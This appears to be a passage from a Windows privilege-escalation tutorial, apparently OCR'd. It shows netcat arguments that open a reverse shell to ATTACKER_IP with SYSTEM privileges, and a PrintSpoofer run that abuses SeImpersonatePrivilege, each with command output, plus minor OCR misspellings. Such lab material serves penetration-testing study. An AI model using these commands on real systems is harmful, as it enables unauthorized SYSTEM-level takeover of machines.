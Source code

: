 The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

```powershell
user@attackerpc$ rlwrap nc -lvnp 4442
Listening on 0.0.0.0 4442
Connection received on 10.10.175.90 49755
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
nt authority\system
```

### PrintSpoofer

If we identify that a server is a Windows Server 2019:
```cmd
C:\Users\Administrator\Desktop> systemínfo
Host Name: QUERIER
OS Name: Microsoft Windows Server 2019 Standard
OS Version: 10.0.17763 N/A Build 17763
```

And has SeImpersonatePrivilege, we can abuse of [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) to escalate privileges:
```powershell
C:\Windows\Temp\privesc> PrintSpoofer64.exe -i -c cmd
PrintSpoofer64.exe -i -c cmd
[+] Found privilege: SelmpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Windows\system32>whoami whoami
nt authority\system
```